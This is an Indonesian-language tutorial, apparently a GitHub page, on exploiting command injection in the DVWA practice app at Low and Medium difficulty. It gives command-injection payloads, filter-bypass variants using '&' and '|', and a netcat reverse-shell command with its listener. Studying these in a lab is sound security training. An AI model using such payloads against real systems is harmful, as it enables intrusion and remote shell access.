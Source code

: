 # Command Injection

Command Injection adalah celah keamanan yang memungkinkan penyerang mengeksekusi perintah sistem melalui input yang tidak difilter dengan baik.

Untuk belajar, kita bisa coba di aplikasi web untuk belajar misalnya DVWA.

## Eksploitasi

Misalnya ada fitur ping IP, dan kita input:

```
192.168.1.99
```

Output-nya akan menampilkan hasil seperti kita melakukan commmand:

```
ping 192.168.1.99
```

Jika input tidak divalidasi dengan baik, kita bisa menyisipkan perintah tambahan.

### Tingkat: Low

Contoh payload:

```
192.168.1.99; ls -la
```

Reverse shell:

```
192.168.1.99; nc -e /bin/bash 192.168.1.100 12345
```

Langkah-langkah:

1. **Buka listener terlebih dahulu** di mesin attacker:

```
nc -lvp 12345
```

2. **Masukkan payload** ke input form target.

### Penjelasan:

- `;` digunakan untuk menambahkan perintah setelah perintah ping.

- Perintah `nc -e /bin/bash` akan membuat reverse shell ke IP dan port yang kita tentukan.

### Tingkat: Medium

Pada level ini, karakter seperti `;` dan `&&` terkena filter oleh aplikasi.

Alternatif yang bisa digunakan:

- `&`
- `|`

Contoh payload:

```
192.168.1.99 & ls -la
```

```
192.168.1.99 | ls -la
```

Efektivitas bergantung pada bagaimana aplikasi memproses input dan filter yang diterapkan.

## 📚 Belajar

[owasp.org/www-community/attacks/Command_Injection](https://owasp.org/www-community/attacks/Command_Injection)
